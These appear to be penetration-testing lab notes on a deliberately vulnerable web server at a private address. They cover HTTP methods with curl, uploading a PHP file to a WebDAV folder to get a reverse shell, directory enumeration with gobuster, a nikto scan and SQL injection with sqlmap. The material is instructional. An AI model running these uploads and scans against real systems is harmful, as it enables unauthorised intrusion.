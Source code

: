 # Labs

## <mark style="color:red;">Lab 1 - Web and HTTP Protocol</mark>

### Practical Demonstration

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl http://192.168.0.141/mutillidae/ -X GET #get request reutrns entire webpage using curl.

# 1 - HEAD
curl http://192.168.0.141/mutillidae/ -I HEAD # head request.
# returns..
HTTP/1.1 200 OK
Date: Tue, 02 May 2023 20:28:07 GMT
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Logged-In-User: 
Cache-Control: public
Pragma: public
Set-Cookie: PHPSESSID=cfae124dc259270a8aada8edf17dda69; path=/
Last-Modified: Tue, 02 May 2023 20:28:07 GMT
Content-Type: text/html

# 2 - upload files
# uploading file to /dav dir with curl to obtain reverse shell.
curl http://192.168.0.141/dav/ --upload-file php_code.php -v

# 3 - OPTIONS
# viewing supported http methods for the victim with curl.
curl -X 'OPTIONS' http://192.168.0.141/dav/ -v
# returns..
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK

```
{% endcode %}



## <mark style="color:red;">Lab 2 - Directory Enumeration with Gobuster</mark>

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt`  - dir enum.

`gobuster dir --help` - help menu.

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt -x .php,.xml,.txt -r` - finding specific file extension.



## <mark style="color:red;">Lab 3 - Scanning Web Apps with Nikto</mark>

`nikto -h http://192.168.0.141` - basic scan with nikto.



## <mark style="color:red;">Lab 4 - SQL Injection with SQLMap</mark>

`sqlmap -u "http://$ip/path" --cookie "PHPSESSID=3434" -p title` -&#x20;



































